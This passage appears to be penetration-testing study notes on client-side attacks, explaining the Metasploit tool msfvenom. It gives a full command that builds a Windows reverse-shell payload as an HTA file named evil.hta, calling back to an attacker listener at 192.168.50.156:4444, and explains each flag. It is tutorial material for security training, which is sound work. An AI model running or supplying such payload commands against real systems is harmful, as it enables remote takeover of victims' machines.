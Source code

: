 #### The way to work

- Metasploit Framework is a penetration testing platform used to develop and deploy security testing tools. Among them is the msfvenom tool which is used to create custom payloads to attack target systems. It allows users to create malicious executables or shells using vulnerabilities in the target system and contains commands to perform intrusive actions.

#### Demo

- First, we will create a malicious payload using the msfvenom tool. This payload will be used to attack the target system.
```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.156 LPORT=4444 -f hta-psh -o /var/www/html/fp/evil.hta
```
  - -p windows/shell_reverse_tcp: select payload as shell_reverse_tcp which allows attacker to establish reverse shell connection with infected machine.
  - LHOST=192.168.50.156: determine the attacker's IP address
  - LPORT=4444: Determines the listening port of the attacker to connect to the reverse shell set up on the infected machine.
  - -f hta-psh: output file format is HTA-Powershell, an HTML file type containing Powershell code to execute the payload.
  - -o /var/www/html/fp/evil.hta: save the output file to the directory /var/www/html/upload/ with the file name evil.hta
  ![Picture](../13.%20Client-Side%20Attacks/Image/9.png)
- We will generate the payload to see something.